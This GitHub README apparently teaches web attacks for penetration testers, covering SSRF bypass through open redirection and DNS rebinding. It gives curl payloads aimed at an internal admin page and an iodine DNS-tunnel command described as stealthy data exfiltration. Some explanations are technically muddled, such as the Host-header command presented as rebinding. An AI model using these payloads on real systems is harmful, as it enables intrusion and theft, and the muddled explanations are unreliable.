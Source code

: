 # Introduction to Web Attacks

This repository is dedicated to providing a comprehensive understanding of various types of web attacks. In today's internet era, web attacks pose a significant threat, with attackers exploiting vulnerabilities in web applications to gain unauthorized access, steal sensitive data, or disrupt services.

## Contents

1. [SSRF Basic Filter Bypasses](#ssrf-basic-filter-bypasses)
2. [DNS Rebinding: SSRF Filter Bypass](#dns-rebinding-ssrf-filter-bypass)
3. [DNS Rebinding: Same-Origin Policy Bypass](#dns-rebinding-same-origin-policy-bypass)
4. [DNS Rebinding: Tools & Prevention](#dns-rebinding-tools--prevention)
5. [More to come...]

# SSRF with Filter Bypass via Open Redirection

Server-Side Request Forgery (SSRF) poses a significant threat to web security. Understanding the basics of basic filter bypass techniques is crucial for effective penetration testing.

## Example Command

```bash
curl -i http://vulnerable-server.local/request?url=http://internal-server.local/
```

![Redirect Example 1](https://i.postimg.cc/2y6jR0LB/redirectnb2.png)
![Redirect Example 2](https://i.postimg.cc/j5qtPMXk/redirect3.png)

## Exploiting the Vulnerability

- Modifying the `stockApi` parameter directly is prevented.
- **Crafting the Exploit URL:**
  - Create a crafted URL to exploit the redirection, such as redirecting to the admin interface:
    ```plaintext
    /product/nextProduct?path=http://192.168.0.12:8080/admin
    ```
- **Using the Exploit URL:**
  - Utilize this URL in the `stockApi` parameter:
    ```bash
    curl -i "http://vulnerable-server.local/product/nextProduct?path=http://192.168.0.12:8080/admin"
    ```
- **Exploiting the Vulnerability:**
  - The stock checker follows the redirection and displays the admin page, enabling actions like user deletion.

These steps illustrate how an open redirection vulnerability can be exploited to bypass SSRF filters and execute unauthorized actions on internal systems.

## DNS Rebinding: SSRF Filter Bypass

DNS Rebinding enhances SSRF attacks by circumventing DNS-result-checked filters at request time.

### Example Command:
- **Bypassing DNS Filter with Rebinding:**
  - Command:
    ```bash
    curl -H "Host: malicious-website.com" http://target-server.local/resource
    ```
  - *Description: This command demonstrates how an attacker configures a DNS server with a short TTL to periodically change the IP address of `malicious-website.com`. The `curl` command then sends a request to `target-server.local`, but the Host header tricks the request into fetching a resource from `malicious-website.com`.*

## DNS Rebinding: Same-Origin Policy Bypass

DNS Rebinding can bypass the crucial Same-Origin Policy to exploit vulnerabilities.

### Example Command:
- **Setting up a Local Server for Same-Origin Policy Bypass:**
  - Command:
    ```bash
    python -m http.server 8080
    ```
  - *Description: This command sets up a simple HTTP server on port 8080. The server can be used to test for vulnerabilities in cross-origin resource sharing (CORS) via DNS rebinding, allowing access to resources that would normally be restricted by the Same-Origin Policy.*

## DNS Rebinding: Tools & Prevention

Understanding both offensive and defensive tools is crucial in mitigating DNS Rebinding threats.

### Tool Example:
- **Using `nslookup`:**
  - Command:
    ```bash
    nslookup target-domain.com
    ```
  - *Description: This command helps to explore and identify potential harmful DNS configurations susceptible to rebinding attacks by resolving the domain name to its corresponding IP addresses.*

### Advanced DNS Tunneling Command:
- **Setting up a DNS Tunnel with `iodine`:**
  - Command:
    ```bash
    iodine -f -P password -T CNAME tunnel.your-server.com
    ```
  - *Description: This command sets up a DNS tunnel using `iodine`, allowing data encapsulation within DNS queries and responses for stealthy data exfiltration.*

## License

This project is under the MIT License. For more details, please refer to the [LICENSE.md](LICENSE.md) file.

This README provides a comprehensive and accessible guide, serving as an invaluable resource for both novices and seasoned pentesters looking to deepen their understanding of sophisticated network security challenges.      
